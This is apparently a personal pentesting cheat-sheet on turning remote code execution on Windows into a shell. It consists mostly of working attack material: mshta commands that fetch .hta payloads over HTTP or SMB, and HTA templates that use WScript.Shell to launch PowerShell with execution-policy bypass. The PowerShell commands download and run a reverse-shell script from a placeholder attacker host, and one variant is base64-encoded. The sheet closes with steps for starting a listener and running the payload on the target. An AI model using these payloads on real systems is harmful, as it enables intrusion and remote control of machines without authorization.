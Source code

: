 # Getting shells from RCE on Windows

These are just some of the ways

* Sources:
    * [hacktricks.xyz](https://book.hacktricks.xyz/shells/shells/windows)
    * [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    
    
## mshta
* Two types of files to download and execute
    * .hta
    * .sct

* Two types of ways (that I know of) to retrieve
    * http
        * `#!batch mshta http://webserver/payload.hta`
    * smb
        * `#!batch mshta \\webdavserver\folder\payload.hta`

* Script: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    ```html
    <html>
    <head>
    <HTA:APPLICATION ID="HelloExample">
    <script language="jscript">
            var c = "cmd.exe /c calc.exe"; 
            new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </head>
    <body>
    <script>self.close();</script>
    </body>
    </html>
    ```

* Sample usage to get powershell shell
    1. On your Kali, host (i.e. `#!bash python3 -m http.server`) the two files
        * an hta file, i.e. from: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
            ```html
            <html>
            <head>
            <HTA:APPLICATION ID="HelloExample">
            <script language="jscript">
                    var a = 'powershell -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")'
                    var b = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")"'
                    var c = 'powershell -Exec Bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADwAWQBPAFUAUgBfAEsAQQBMAEkAXwBJAFAAXwBPAFIAXwBGAEkATABFAEgATwBTAFQASQBOAEcAXwBNAEEAQwBIAEkATgBFAD4AOgA4ADAAMAAwAC8AbQBpAG4AaQAtAHIAZQB2AGUAcgBzAGUALgBwAHMAMQApAA=='
                    new ActiveXObject('WScript.Shell').Run(a);
            </script>
            <!-- -------READ------- -->
            <!--var c is base64 encoded with the value of "IEX(New-Object System.Net.WebClient).DownloadString('http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1')" -->
            <!-- """ does not work in encoding, use proper syntax -->
            <!-- choose between var a,b or c to replace 'x' in ...').Run(x) above
            </head>
            <body>
            <script>self.close();</script>
            </body>
            </html>
            ```
        * [mini-reverse.ps1](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) from @staaldraad
            * Modify to change IP Address and port of reverse shell listener
    1. On your Kali, Run your reverse shell listener (`msf exploit/multi/hanlder` or `#!bash nc`)
    1. On the target machine, execute:
        ```batch
        mshta http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.hta
        ```
    
        
## Powershell
   * Get fully interactive shell with [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
   * Please see script with examples above (mshta - var a,b and c)
   * To be added here and more
   * Working shells I have tried:
      * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad
